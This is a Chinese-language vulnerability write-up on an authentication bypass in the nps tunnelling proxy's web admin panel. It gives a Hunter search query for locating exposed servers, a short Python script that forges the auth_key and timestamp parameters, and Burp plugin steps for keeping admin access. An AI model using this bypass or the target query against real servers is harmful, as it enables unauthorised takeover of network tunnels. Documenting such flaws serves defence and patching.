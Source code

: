 # nps auth_key未授权访问漏洞

# 一、漏洞简介
nps是一款轻量级、高性能、功能强大的内网穿透代理服务器。目前支持tcp、udp流量转发，可支持任何tcp、udp上层协议（访问内网网站、本地支付接口调试、ssh访问、远程桌面，内网dns解析等等），此外还支持内网http代理、内网socks5代理、p2p等，并带有功能强大的web管理端。其中auth_key 存在未授权访问漏洞，当 nps.conf 中的 auth_key 未配置时攻击者通过生成特定的请求包可以获取服务器后台权限。

# 二、影响版本
+ nps

# 三、资产测绘
hunter：`app.name=="NPS"`

![1690905321342-d3f07968-0b21-4f33-9fdc-6e0aadc8ac40.png](./img/ZDr_BBe5Bm_qQnLI/1690905321342-d3f07968-0b21-4f33-9fdc-6e0aadc8ac40-275845.png)

登陆页面：

![1690905349347-b1e10017-8bea-4fb1-94d8-7a5278399643.png](./img/ZDr_BBe5Bm_qQnLI/1690905349347-b1e10017-8bea-4fb1-94d8-7a5278399643-811855.png)

# 四、漏洞复现
nps认证方式是通过配置文件nps.conf中的auth_key与timestamp的md5形式进行认证，但在默认的配置文件中，auth_key 默认被注释，所以只需要可以获取到的参数 timestamp 就可以绕过认证登录。

```java
import time
import hashlib
now = time.time()
m = hashlib.md5()
m.update(str(int(now)).encode("utf8"))
auth_key = m.hexdigest()
 
print("Index/Index?auth_key=%s&timestamp=%s" % (auth_key,int(now)))
```

![1690906026443-b70fe018-f2d0-4d67-bb7f-5a4e2bd3da2a.png](./img/ZDr_BBe5Bm_qQnLI/1690906026443-b70fe018-f2d0-4d67-bb7f-5a4e2bd3da2a-278432.png)

成功绕过进入后台

![1690906058460-277b73fc-8982-41f6-85d4-c592b09b36ed.png](./img/ZDr_BBe5Bm_qQnLI/1690906058460-277b73fc-8982-41f6-85d4-c592b09b36ed-607784.png)

NPS存在一个身份验证的缺陷，无需登录，直接进后台，后台功能点全都可以用。具体利用是伪造两个参数auth_key、timestamp。由于参数的生命周期只有20秒，20秒过后就需要重新伪造，故采用burp插件。

插件所有的功能集成到了Burp的右键中：

1、首先访问nps站点，拦截请求包，启用插件 

![1690906445748-6ff0e472-4657-46e8-b19f-3377b92716b1.png](./img/ZDr_BBe5Bm_qQnLI/1690906445748-6ff0e472-4657-46e8-b19f-3377b92716b1-763743.png)

![1690906483905-89f648c9-f7d9-41d1-ac1a-2c4b5936d37f.png](./img/ZDr_BBe5Bm_qQnLI/1690906483905-89f648c9-f7d9-41d1-ac1a-2c4b5936d37f-940880.png)

2、点击“查看仪表盘”会修改请求包，之后直接放行数据包成功登陆后台，后续每一个请求都会自动贴上身份验证参数。

![1690906698049-f5763516-c353-4ed2-b6fb-ec146d5308c7.png](./img/ZDr_BBe5Bm_qQnLI/1690906698049-f5763516-c353-4ed2-b6fb-ec146d5308c7-679499.png)

![1690906762480-40576cdf-6b8b-4bdb-9def-d9e6f5e63ff1.png](./img/ZDr_BBe5Bm_qQnLI/1690906762480-40576cdf-6b8b-4bdb-9def-d9e6f5e63ff1-086832.png)





> 更新: 2024-02-29 23:57:16  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/pxqopzr7q1gwysu2>